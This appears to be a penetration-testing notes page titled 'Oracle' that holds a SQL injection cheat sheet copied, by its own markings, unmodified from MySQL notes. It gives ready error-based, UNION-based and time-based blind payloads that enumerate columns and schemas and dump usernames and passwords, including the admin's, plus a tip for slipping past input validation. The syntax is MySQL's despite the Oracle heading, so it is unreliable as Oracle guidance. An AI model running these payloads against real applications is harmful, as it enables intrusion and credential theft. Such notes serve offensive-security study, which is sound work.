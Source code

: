 # Oracle

## Methodology

See [0 SQL Injection](0%20SQL%20Injection.md) for identification if necessary

### Error-based Payloads vs Authentication Queries !!UNMODIFIED FROM MySQL!!

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (select @@version) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
'
```

### UNION-based payloads vs Search Queries !!UNMODIFIED FROM MySQL!!

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can use UNION SELECT to return database information in each column
' UNION SELECT database(), user(), @@version, null, null -- //
'
# In the case where the first 2 columns are not being returned (reserved or whatever), we can rearange our statement to actually view the values
' UNION SELECT null, database(), user(), @@version, null -- //
'
# We can now attempt to retrieve the columns table from the information_schema database belonging to the current database. We'll then store the output in the second, third, and fourth columns, leaving the first and fifth columns null
' UNION SELECT null, table_name, column_name, table_schema, null FROM information_schema.columns WHERE table_schema=database() -- //
'
# Now that we have identified our table names, column names, and database name, we can attempt to dump sensitive information a table
' UNION SELECT null, username, password, description, null FROM users -- //
'
# We can also identify other databases to enumerate
' UNION SELECT null, SCHEMA_NAME, null, null, null FROM information_schema.schemata -- //
'
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Blind SQL Injections !!UNMODIFIED FROM MySQL!!

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
'
```

